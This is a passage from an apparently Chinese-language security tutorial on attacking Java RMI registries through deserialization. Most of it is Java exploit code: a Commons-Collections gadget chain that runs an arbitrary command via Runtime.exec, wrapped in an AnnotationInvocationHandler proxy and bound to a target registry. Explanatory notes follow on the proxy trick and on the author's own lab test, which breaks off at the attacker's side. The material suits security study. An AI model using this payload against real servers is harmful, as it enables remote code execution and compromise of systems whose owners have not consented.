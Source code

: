 ```
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[] {String.class, Class[].class },
                        new Object[] {"getRuntime", new Class[0] }),
                new InvokerTransformer("invoke",
                        new Class[] {Object.class, Object[].class },
                        new Object[] {null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] { String.class },
                        new Object[] { command }),
                new ConstantTransformer(1) };
        Transformer transformerChain = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        Map lazyMap = LazyMap.decorate(innerMap, transformerChain);
        TiedMapEntry entry = new TiedMapEntry(lazyMap, "foo");
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        Field valfield = badAttributeValueExpException.getClass().getDeclaredField("val");
        valfield.setAccessible(true);
        valfield.set(badAttributeValueExpException, entry);
        // 上面都是我们接触过得代码，正常的payload生成，下面的就是把它包装一下，让它可以在rmi中使用
        // 为了能够封装到AnnotationInvocationHandler中，需要把badAttributeValueExpException先放到一个map结构中
        String name = "axin";
        Map<String, Object> map = new HashMap<String, Object>();
        map.put(name, badAttributeValueExpException);
        // 获得AnnotationInvocationHandler的构造函数
        Constructor cl = Class.forName(ANN_INV_HANDLER_CLASS).getDeclaredConstructors()[0];
        cl.setAccessible(true);
        // 实例化一个Remote.class的代理
        InvocationHandler hl = (InvocationHandler)cl.newInstance(Override.class, map);
        Object object = Proxy.newProxyInstance(Remote.class.getClassLoader(), new Class[]{Remote.class}, hl);
        Remote remote = Remote.class.cast(object);
        Registry registry=LocateRegistry.getRegistry(ip,port);
        registry.bind(name, remote);
    }
}
```

注释中已经解释了代码的用途，但是最后一点代码还是要着重说一下，因为 bind(name,remote) 中的 remote 对象必须要实现 Remote 接口，但是我们的 badAttributeValueExpException 是没有实现这个接口的，所以，这里利用了很巧妙的一个技巧，那就是利用动态代理，代理了 Remote.class，且把这个类的 handler 设置为封装了我们的 badAttributeValueExpException 对象的 AnnotationInvocationHandler，这里不一定是用 AnnotationInvocationHandler 封装，换成其他的 handler 也是可以的，这样就可以把我们的恶意序列化对象发到服务端了。

ps: 虽然我们的对象被封装到了 handler 中，但是 java 在反序列化时是会层层进行的，所以，不用担心我们的对象不被反序列化。

有些文章提到不能直接 bind 恶意对象到 registry, 只能本地进行 bind、rebind、unbind 等方法，但是经过我的测试，是可以的。实验结果如下：

服务端（我的物理机）：

![](https://mmbiz.qpic.cn/mmbiz_png/xeqp4Yyd9TeVSvh2Wphm6gemxzatIIFsEpzbf6EwhEXYfWwUyycozNzG0aV9v2YOeV1hyhDa98GlBicbYsBp4vA/640?wx_fmt=png)

攻击者（我的虚拟机）：
